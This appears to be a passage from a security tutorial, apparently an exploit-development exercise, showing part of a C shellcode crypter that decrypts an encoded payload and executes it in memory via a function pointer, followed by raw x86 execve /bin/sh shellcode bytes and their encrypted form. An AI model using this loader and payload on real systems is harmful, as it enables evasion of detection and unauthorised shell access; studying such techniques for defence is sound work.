 ```c
printf("\n%s\n",hexfromchr);

printf("\n[+] Decrypted Shellcode Length = %d\n",strlen(hexfromchr) / 4);

printf("\n");

//execute the shellcode after decryption
//transform the char input into bytes in order to execute in memory 
unsigned char* chr = hexTochar(hex);

printf("\n[!] Executing shellcode with length: %d\n\n", strlen(chr));

int (*ret)() = (int(*)())chr;

ret();

free(chr);
free(hexfromchr);
}
else if ( (strncmp(argv[1],"-d",2) != 0) || (strncmp(argv[1],"-e",2) != 0))
message("Provide an option\n");

free(shellcode);

return 0;

```
<p style="text-align:justify;">
The program above has been successfully compiled and tested in kali&nbsp;linux version 4.19.0 x86 architecture. The following <b>execve</b>  <b>shellcode</b> has been used for testing purposes which opens a <b>/bin/sh</b> command prompt.&nbsp;&nbsp;
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
</pre>

The ciphertext of the **shellcode** above is the following&nbsp;

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
\x07\x7d\x77\x78\x11\x78\x16\x20\x02\x06\x02\x06\x1b\x07\x16\x20\x16\x20\x02\x06\x16\x02\x16\x25\x16\x01\x20\x25\x01\x07\x11\x78\x20\x25\x01\x02\x11\x07\x20\x25\x01\x7d\x72\x78\x78\x72\x77\x7c\x20\x78
</pre>
